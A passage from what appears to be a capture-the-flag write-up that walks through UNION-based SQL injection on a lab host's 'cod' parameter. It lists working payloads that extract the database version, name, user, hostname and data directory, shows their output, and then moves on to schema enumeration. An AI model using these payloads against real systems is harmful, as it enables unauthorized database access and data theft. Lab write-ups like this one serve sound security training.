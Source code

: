 Let's try and grab the database software and version information as follows:

```
cod=99+UNION+SELECT+@@version,NULL,NULL,NULL,NULL,NULL,NULL
cod=99+UNION+SELECT+NULL,@@version,NULL,NULL,NULL,NULL,NULL
cod=99+UNION+SELECT+NULL,NULL,@@version,NULL,NULL,NULL,NULL
cod=99+UNION+SELECT+NULL,NULL,NULL,@@version,NULL,NULL,NULL
cod=99+UNION+SELECT+NULL,NULL,NULL,NULL,@@version,NULL,NULL
cod=99+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,@@version,NULL
cod=99+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,@@version
```

The screenshot below shows the result from the payload in row 3 above. All of the first 6 worked, but row 7 didn't. Since I got returned data, I'm not going to worry about that. I chose row 3 because I can easily search for "price-room" to see the output for future requests, as shown below. BURP also has a handy "Auto-scroll" option which goes directly to the string being searched for. This can be enabled by clicking on the "+" button in the response pane.&#x20;

![](<../../.gitbook/assets/13 (1) (1).JPG>)

Now that we know the database is running MariaDB (MySQL variant), we can customize our queries to this specific target. MySQL has a number of built in functions we can use to extract more information:

```
cod=99+UNION+SELECT+NULL,NULL,database(),NULL,NULL,NULL,NULL    --> Result: "price-room">hotel
cod=99+UNION+SELECT+NULL,NULL,user(),NULL,NULL,NULL,NULL        --> Result: "price-room">DBadmin@localhost
cod=99+UNION+SELECT+NULL,NULL,@@hostname,NULL,NULL,NULL,NULL	--> Result: "price-room">jarvis
cod=99+UNION+SELECT+NULL,NULL,@@datadir,NULL,NULL,NULL,NULL	--> Result: "price-room">/var/lib/mysql/
```

The output from these queries provides us with some very useful information. We now know the database being queries is called "hotel". Let's see if we can find out the name of all the databases on the system.

#### Determine all databases on target

For this we will query the INFORMATION\_SCHEMA.SCHEMATA table, which stores information about all the databases on the system. For more information on this, see the following page:

{% embed url="https://mariadb.com/kb/en/information-schema-schemata-table" %}
